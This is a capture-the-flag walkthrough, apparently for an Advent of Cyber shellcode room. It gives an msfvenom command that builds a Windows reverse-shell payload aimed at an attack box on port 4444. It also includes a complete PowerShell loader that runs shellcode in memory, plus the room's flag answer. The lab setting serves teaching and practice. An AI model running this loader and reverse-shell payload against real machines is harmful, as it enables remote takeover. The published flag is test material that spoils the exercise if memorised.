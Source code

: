 <h1>Learning Objectives</h1>
<li>Grasp the fundamentals of writing shellcode.</li>
<li>Generate shellcode for reverse shells.</li>
<li>Executing shellcode with PowerShell.</li>


<p align="center"><img src="https://github.com/user-attachments/assets/a06da095-f46f-4591-b00c-48ca63181822"/></p>

<p>Glitch has realised he's no longer receiving incoming connections from his home base. Mayor Malware's minion team seems to have tampered with the shellcode and updated both the IP and port, preventing Glitch from connecting.</p>
<p>Can you help Glitch identify and update the shellcode with the correct IP and port to restore the connection and reclaim control?</p>



<p><h2>Q1: What is the flag value once Glitch gets reverse shell on the digital vault using port 4444?</h2></p>

<details>
  <summary>Q1 Walkthrough</summary>
    <p>Open a Terminal and enter the command msfvenom -p windows/x64/shell_reverse_tcp LHOST=(ATTACKBOX_IP) LPORT=4444 -f powershell to generate the shellcode</p>
      <img src="https://github.com/user-attachments/assets/96cef443-488e-481e-b3c5-abac26272085"/>
    <p>Execute the following command to open port 4444 and listen for connections</p>
      <img src="https://github.com/user-attachments/assets/8cf8dc42-f338-44d6-bee0-ac328b5ca51b"/>
    <p>Create a new file and paste the following PowerShell Script into it</p>

<p>$VrtAlloc = @"
using System;
using System.Runtime.InteropServices;

public class VrtAlloc{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);  
}
"@

Add-Type $VrtAlloc 

$WaitFor= @"
using System;
using System.Runtime.InteropServices;

public class WaitFor{
 [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);   
}
"@

Add-Type $WaitFor

$CrtThread= @"
using System;
using System.Runtime.InteropServices;

public class CrtThread{
 [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
  
}
"@
Add-Type $CrtThread   

[Byte[]] $buf = (SHELLCODE_PLACEHOLDER)
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")</p>
      <img src="https://github.com/user-attachments/assets/5c7f67e2-737e-437c-b25c-622b78db751f"/>
    <p>Replace part labeled (SHELLCODE_PLACEHOLDER) with shell code previously created with msfvenom</p>
      <img src="https://github.com/user-attachments/assets/78a5f2fd-c03c-45fa-ad3c-cd24fa6ab26f"/>
    <p>Open PowerShell and execute the first half of the code from the document as such</p>
      <img src="https://github.com/user-attachments/assets/4087ed57-fe77-4571-b469-708bb010af32"/>
    <p>Open PowerShell and execute the last four lines of code one-by-one</p>
      <img src="https://github.com/user-attachments/assets/1a1041bf-cd87-4deb-8c93-03500af84ee2"/>
    <p>Verify the reverse shell was complete in the AttackBox</p>
      <img src="https://github.com/user-attachments/assets/eed55ff9-f08b-4628-be46-c44e6bdec14d"/>
    <p>Change directories to Desktop and open the txt file</p>
      <img src="https://github.com/user-attachments/assets/ea9cc931-56a6-4811-b99d-fcd2639b6ce7"/>
 <details> 
  <summary>Q1 Answer</summary>
   <p><b>AOC{GOT _MY_ACCESS_B@CK007}</b>
    <p><img src="https://github.com/user-attachments/assets/c3e4e3d2-c421-4cb4-9aba-efebe735d5c2"/></details>
</details>
